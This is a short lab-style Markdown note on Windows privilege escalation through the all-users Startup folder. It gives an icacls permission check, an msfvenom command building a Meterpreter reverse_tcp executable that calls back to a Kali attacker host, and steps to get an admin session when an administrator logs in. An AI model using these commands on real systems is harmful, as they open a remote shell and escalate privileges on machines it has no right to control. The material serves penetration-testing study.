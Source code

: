 # Start Up Applications

Open command prompt and type:

```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

If We have&#x20;

F means Full Access

M modify Access

RX read and executable

Create an script using msfvenom

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe`

Place x.exe in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.\
2\. Logoff.\
3\. Login with the administrator account credentials.

Kali VM

1\. Wait for a session to be created, it may take a few seconds.\
2\. In Meterpreter(meterpreter > prompt) type: getuid\
3\. From the output, notice the user is “User-PC\Admin”
